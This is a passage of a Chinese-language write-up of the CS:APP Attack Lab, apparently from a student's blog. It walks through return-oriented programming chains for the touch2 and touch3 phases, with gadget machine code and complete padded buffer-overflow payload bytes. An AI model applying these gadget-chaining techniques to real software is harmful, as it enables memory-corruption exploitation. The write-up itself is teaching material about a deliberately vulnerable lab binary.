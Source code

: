 即

```asm
58
c3
48 89 c7
c3
```

分别位于：`0x4019ab` 与 `0x4019a2`

> 注意，我们不能选择 `0x4019b0` 位置的那个序列，因为我们需要保证执行完这个指令后，下一条指令一定是 `c3` (i.e. `retq`)，这样才能保证我们的控制链是连贯的

于是，我们根据之前的计划，安排好次序：

```asm
ab 19 40
fa 97 b9 59  # <cookie value>
a2 19 40
```

由于我们最后一次需要跳转到 `touch2`，并且需要填充 `buf` 的 $40$ 字节，于是，完整的代码为：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

### touch3

> 文档已经开始劝退了 :joy:
> ![image.png](https://virgil-civil-1311056353.cos.ap-shanghai.myqcloud.com/img/20231002201601.png)

难点主要在于如何传递这个字符串指针，在前面我们知道，字符串的指针是通过 `%rsp` 算出来的，但由于这里我们没办法知道 `%rsp` 的绝对值，所以我们必须读取 `%rsp` 的值，并对其做偏移

1. `movq %rsp, %rax`，机器码为 `48 89 e0 c3`
2. `add $offset, %rax`
3. `movq %rax, %rdi`，机器码为 `48 89 c7 c3`

此时，这个 `offset` 我们只能在给我们的代码中寻找，可以发现这个函数 `addval_190`，其汇编解释为：

![image.png](https://virgil-civil-1311056353.cos.ap-shanghai.myqcloud.com/img/20231002210443.png)

这里给予我们一些启发：如果这个 `0x37` 能够被加到 `%rax` 上就好了

通过一些探索，我们可以得到：

`add $0x37, %al` 的机器码就是 `04 37` （探索也很容易，就是不断缩小 `%rax` 的位数，反正只需要偏移 `0x37`，小一点也没关系）

那么，我们的字符串指针就需要在 `%rsp + 0x37` 的位置，也就是需要偏移 `55` 个字节，那么答案如下：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
d8 19 40 00 00 00 00 00 # <- offset calculate at here
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00
```